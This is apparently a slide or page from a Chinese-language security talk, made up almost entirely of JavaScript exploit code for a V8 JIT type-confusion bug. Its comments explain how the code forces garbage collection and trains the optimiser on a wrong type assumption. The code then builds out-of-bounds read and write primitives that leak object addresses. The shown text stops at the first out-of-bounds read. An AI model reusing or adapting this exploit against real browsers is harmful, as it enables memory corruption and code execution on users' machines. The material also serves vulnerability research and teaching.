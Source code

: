 <div class='ml-6'>
```js{*}{maxHeight:'230px'}
// 用來觸發 garbage collection 用的
function gc() {
  for(var i = 0;i < ((1024*1024)); i++) {
    new String();
  }
}

function foo(y) {
  x = y;
}

function oobRead() {
  //addrOf b[0] and addrOf writeArr::elements
  return [x[20],x[24]];
}

function oobWrite(addr) {
  x[24] = addr;
}

// 為了觸發 bug 做的前置準備
var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;
var x = arr0;

gc();gc();

var arr = new Array(30); arr.fill(4); arr.a = 1;
var b = new Array(1); b.fill(1);
var writeArr = [1.1];

// 讓 V8 去最佳化 foo
for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}

x[0] = 1.1;

// 讓 V8 去最佳化 oobRead 這函式
// 此時 V8 認為 oobRead 裡面的 x 一定是 double 型別
for (let i = 0; i < 20000; i++) {
  oobRead();
}

// 讓 V8 去最佳化 oobWrite 這函式
for (let i = 0; i < 20000; i++) oobWrite(1.1);

// 利用漏洞讓 x 變回 int，但 V8 仍認為 x 是 double
foo(arr);

var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Int32Array(view);
var bigIntView = new BigInt64Array(view);
b[0] = instance;

// 讀取到不該讀取的記憶體位置
var addrs = oobRead();
```
</div>